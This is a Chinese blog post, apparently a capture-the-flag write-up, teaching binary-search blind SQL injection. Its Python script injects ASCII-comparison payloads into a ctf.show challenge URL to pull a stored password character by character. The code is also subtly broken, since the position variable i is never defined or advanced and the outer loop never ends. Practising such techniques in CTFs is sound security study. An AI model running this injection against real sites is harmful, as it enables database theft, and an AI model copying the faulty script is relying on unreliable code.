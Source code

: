 ```yaml
---
title: "SQL 盲注二分法"
date: 2022-07-28T20:00:43+08:00
draft: false
author: "X1r0z"

tags: ['sqli','python']
categories: ['Web安全']

hiddenFromHomePage: false
hiddenFromSearch: false
twemoji: false
lightgallery: true
ruby: true
fraction: true
fontawesome: true
linkToMarkdown: true
rssFullText: false

toc:
  enable: true
  auto: true
code:
  copy: true
  maxShownLines: 50
math:
  enable: false
share:
  enable: true
comment:
  enable: true
---
```



之前一直都是整个过一遍字典... 二分法没怎么研究

二分法有一个使用条件, 就是需要查找的内容必须有序 (即按照从小到大或从大到小的顺序排序)

这里借 ASCII 码实现二分法盲注

<!--more-->

二分法 时间复杂度为 `O(log2n)`, 二分法查找比遍历字典查找效率高得多

```python
import requests

url = 'http://a2a7e64c-6f02-4059-84fc-3cdda760b232.challenge.ctf.show/api/index.php?id=1'

flag = ''

while True:

    min = 32
    max = 127

    while min < max:
        mid = (min + max) // 2
        payload = '\' and if(ascii(substr((select password from ctfshow_user where username=\'flag\'),{},1))>{},1,0) %23'.format(i,mid)
        res = requests.get(url + payload)
        if 'admin' in res.text:
            min = mid + 1
        else:
            max = mid
    flag += chr(min)
    print(flag)

```

这里主要说一下为什么是 `min = mid +1` 和 `max = mid`

当判断 mid 大于某个值的结果为 true 时, 这个所求值肯定是比 mid 要大的 (大于), 所以是 `mid + 1`

当结果为 false 时, 所求值应该是不超过 mid (小于等于), 所以是 `max = mid`